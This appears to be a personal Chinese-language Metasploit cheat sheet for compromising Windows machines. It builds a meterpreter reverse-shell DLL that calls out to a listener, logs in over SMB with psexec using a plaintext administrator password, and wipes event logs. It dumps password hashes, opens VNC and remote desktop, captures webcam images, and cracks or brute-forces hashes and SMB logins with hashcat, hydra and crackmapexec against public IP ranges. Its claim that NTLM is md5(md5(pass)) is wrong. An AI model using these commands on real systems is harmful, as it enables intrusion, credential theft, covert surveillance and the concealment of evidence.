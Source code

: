 # mm
## msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=125.116.163.85 LPORT=1214 -f dll > ZombieBoy.dll
```
## Shellter 6.5

![enter description here][1]
依次输入:
Y
L
1
10.10.10.128
1213
```
>msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp  
set lhost 127.0.0.1
set lport 1213
exploit
```
或者set payload windows/x64/meterpreter/reverse_tcp

![enter description here][2]
# smb登录
```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhost 10.23.100.28
set lhost 10.18.44.199
set smbuser administrator
set smbpass dajiahao!!!520.
exploit
```
# 后渗透
## 稳
```
//稳
run post/windows/manage/migrate
```
## 清除痕迹
```
clearev
```
## 想干嘛干嘛
```
//导出帐号
hashdump 
//观看屏幕
run vnc
//开启远程桌面
run getgui -e
//运行远程桌面
rdesktop -a 16 10.10.10.131 -u administrator
//摄像头截图
webcam_snap
//开启摄像头
run webcam
//下面弹窗实验失败（后来成功）
msf>>irb
client.railgun.user32.MessageBoxA(0,"hello","world","MB_OK")
exit
```
# hash密码破解
sam文件实例:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbb811650aaa94974b94bb70c9e372de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
zzc:1009:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
```
第四个(zzc:32ed87bdb5fdc5e9cba88547376818d4)为hash,且加密方式为:md5(md5($pass))
## hash查找
需要翻墙
```
cd E:\informationTechnology\pentestBox\bin\password_attacks\findmyhash
e:
findmyhash MD5 -h 32ed87bdb5fdc5e9cba88547376818d4
```
或者手动一个一个网站去找
这个不需翻墙
http://www.cmd5.com/
## hashcat破解
破解sam文件
```
hashcat-cli64.exe --hash-type 1000 --attack-mode 3 --increment --increment-min 1 --increment-max 8 E:\informationTechnology\pentestBox\bin\ExploitationTools\CrackMapExecWin\logs\1.txt ?d?d?d?d?d?d
```
成功效果:

![enter description here][3]
说明:
```
--hash-type 1000:破解hash加密方式(ntlm方式，是windows sam文件密码的加密方式，也就是md5(md5($pass)))
 --attack-mode 3:是掩码攻击模式
掩码攻击说明:
	?l = abcdefghijklmnopqrstuvwxyz
	?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
	?d = 0123456789
	?s =  !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
	?a = ?l?u?d?s
	?b = 0x00 - 0xff
```
## hydra smb 密码破解(不好用)
```
hydra -L user.txt -P password.txt -o find.txt 125.116.161.204 smb
```
## crackmapexec smb 破解
```
 cd E:\informationTechnology\pentestBox\bin\ExploitationTools\CrackMapExecWin
 e:
crackmapexec.exe -t 200 -u C:\Users\Administrator\Desktop\LOVE\user.txt -p C:\Users\Administrator\Desktop\LOVE\password.txt 125.116.161.204/24
```
# 内网欺骗
```
http://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651063379&idx=4&sn=729bf86cf1bee0f6fca2f7fc494aa8d7&chksm=bd1f96d88a681fce198a593c8138612d6787601da07a042b0977159ec0e7af5bd65910073c14&mpshare=1&scene=23&srcid=0415HE4k12QfmZcmLWan1CGP#rd

```


  [1]: ./images/1491311059270.jpg "1491311059270"
  [2]: ./images/1491311452151.jpg "1491311452151"
  [3]: ./images/1491987224634.jpg "1491987224634"